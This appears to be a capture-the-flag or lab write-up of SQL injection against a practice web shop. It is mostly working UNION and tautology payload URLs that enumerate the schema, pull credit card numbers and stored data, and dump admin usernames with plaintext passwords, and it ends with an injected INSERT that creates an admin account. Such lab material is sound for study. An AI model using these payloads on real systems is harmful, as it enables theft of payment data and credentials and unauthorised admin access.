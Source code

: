 # SQL Injection Writeup

Scheme:
```
>jump
->T1:10.100.28.48
```

## DNLA Category
```
?category=2 or 1=1

flag: { 6CL9mticVauQB80HtxIq }
```

## Tables
```
http://10.100.28.48/cases/productsCategory.php?category=2%20union%20select%20table_name,table_schema,column_name%20from%20information_schema.columns
```

DB: sqlinjection
1. categories
2. members
3. orderlines
4. orders
5. payments
6. permissions
7. products
8. share4

## Admin Credentials

Boss	   8a64QCLqZid5ka2Cc3nr
Maverick   turn&burn
phreak	   pwd
Susan	   flowers99
TW	       imAPlaya
1-2-3-4	   sayULuvM3
rich_kid   1M$
p0pStar	   thrilla
Joe	       vato

## SQL version

```
http://10.100.28.48/cases/productsCategory.php?category=2%20union%20select%201,2,@@version
```

categories	sqlinjection	id
categories	sqlinjection	name
categories	sqlinjection	description
members	sqlinjection	id
members	sqlinjection	username
members	sqlinjection	password
members	sqlinjection	first_name
members	sqlinjection	last_name
members	sqlinjection	email
members	sqlinjection	permission
orderlines	sqlinjection	id
orderlines	sqlinjection	quantity
orderlines	sqlinjection	product
orderlines	sqlinjection	order
orders	sqlinjection	id
orders	sqlinjection	date
orders	sqlinjection	member
payments	sqlinjection	id
payments	sqlinjection	creditcard_number
payments	sqlinjection	date
payments	sqlinjection	order
permissions	sqlinjection	id
permissions	sqlinjection	level
permissions	sqlinjection	name
permissions	sqlinjection	description
products	sqlinjection	id
products	sqlinjection	name
products	sqlinjection	description
products	sqlinjection	price
products	sqlinjection	qty_left
products	sqlinjection	category
share4	sqlinjection	id
share4	sqlinjection	comment
share4	sqlinjection	mime
share4	sqlinjection	data

```
http://10.100.28.48/cases/productsCategory.php?category=2%20union%20select%20id,creditcard_number,3%20from%20sqlinjection.payments
```

## Id Search:

```
http://10.100.28.48/cases/productsCategory.php?category=2%20union%20select%20comment,data,3%20from%20sqlinjection.share4
```

base64:
```
ZHEzY0drazZNZmxLSnh2R25kWGgK ->
dq3cGkk6MflKJxvGndXh
```

## Create Admin

```
firstname=testuser&lastname=testuser&username=testuser&password=testuser&email=testuser&submit=Register
```

Query:
```
INSERT INTO members (first_name, last_name, username, password, email, permission) VALUES ('testuser', 'testuser', 'testuser', 'testuser', 'testuser', 3)
```

```
10.100.28.48/cases/productsCategory.php?category=2 insert into members (first_name, last_name, username, password, email, permission) VALUES ('Hacker', 'Hackerson', 'h4cker', 'h4cker', h4cker@example.com', 1)
```

lEsHbAmp3FdKhG6sbDil
